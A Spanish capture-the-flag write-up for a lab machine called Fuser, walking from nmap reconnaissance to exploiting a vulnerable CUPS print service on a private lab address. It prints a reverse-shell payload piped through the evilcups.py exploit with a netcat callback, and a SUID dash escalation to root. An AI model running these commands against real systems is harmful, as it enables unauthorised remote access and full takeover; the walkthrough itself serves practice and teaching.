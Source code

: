 ```yaml
---
description: '🔍 Dificultad: Muy Fácil'
---
```


# Fuser

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.129
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.129 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH,** el **puerto 631** perteneciente al **servicio IPP** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80,631 -v 192.168.1.129
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80. No contiene nada relevante.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Revisamos el puerto 631. Descubrimos que es un **CUPS** y su versión es vulnerable en la que podemos hacer una **Reverse Shell**.

{% @github-files/github-code-block url="https://github.com/IppSec/evil-cups/blob/main/evilcups.py" %}

Ejecutamos y nos ponemos en escucha.

```bash
nc -nlvp 443
python3 evilcups.py 192.168.1.56 192.168.1.129 "nc 192.168.1.56 443 -e /bin/sh"
```

Buscamos directorios.

```bash
gobuster dir -u http://192.168.1.129:631 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,txt,php,xml
```

Vemos que hay un directorio llamado **/printers** por lo que ahí se verá las impresoras.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1).png" alt=""><figcaption></figcaption></figure>

Obtenermos ya la shell.

<figure><img src="../../.gitbook/assets/image (14) (1).png" alt=""><figcaption></figcaption></figure>

Hacemos el [tratamiento de la TTY](https://invertebr4do.github.io/tratamiento-de-tty/) para trabajar más cómodos.

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. No tenemos permisos SUDO.&#x20;

Tenemos permisos **SUID** sobre el binario **dash**.

{% embed url="https://gtfobins.github.io/gtfobins/dash/#suid" %}

```bash
/usr/bin/dash -p
```

Ya somos **root**.
